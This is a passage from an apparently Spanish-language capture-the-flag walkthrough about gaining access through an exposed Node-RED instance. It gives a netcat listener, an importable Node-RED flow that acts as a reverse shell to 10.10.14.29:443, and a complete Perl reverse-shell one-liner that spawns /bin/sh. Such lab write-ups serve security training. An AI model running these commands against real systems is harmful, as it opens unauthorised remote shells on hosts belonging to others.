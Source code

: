 ## Vuln exploit & Gaining Access {-}

### Ganando acceso con Node-RED {-}

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Copiamos el json y lo copiamos en la web

    ```bash
    echo '[{"id":"7235b2e6.4cdb9c","type":"tab","label":"Flow 1"},{"id":"d03f1ac0.886c28","type":"tcp out","z":"7235b2e6.4cdb9c","host":"","port":"","beserver":"reply","base64":false,"end":false,"name":"","x":786,"y":350,"wires":[]},{"id":"c14a4b00.271d28","type":"tcp in","z":"7235b2e6.4cdb9c","name":"","server":"client","host":"10.10.14.29","port":"443","datamode":"stream","datatype":"buffer","newline":"","topic":"","base64":false,"x":281,"y":337,"wires":[["4750d7cd.3c6e88"]]},{"id":"4750d7cd.3c6e88","type":"exec","z":"7235b2e6.4cdb9c","command":"","addpay":true,"append":"","useSpawn":"false","timer":"","oldrc":false,"name":"","x":517,"y":362.5,"wires":[["d03f1ac0.886c28"],["d03f1ac0.886c28"],["d03f1ac0.886c28"]]}]' | xclip -sel clip
    ```

    Y lo pegamos en Menu > import > Clipboard. Dandole a **import**, vemos un nuevo diagrama

1. Lanzamos el exploit dandole al boton **Deploy**

Ya ganamos acceso al systema pero viendo que somos root, esto significa que estamos en un contenedor.

Aqui intentamos hacer un tratamiento de la TTY pero vemos que no le gusta.

```bash
which python
which python2.7
which python3
which perl
```

como vemos que la maquina tiene **perl**, vamos a entablarnos una nueva reverse shell con perl.

1. nos ponemos nuevamente en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. desde la shell que tenemos en el contenedor lanzamos un shell reversa con perl

    ```bash
    perl -e 'use Socket;$i="10.10.14.29";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
    ```

#### Tratamiento de la TTY {-}
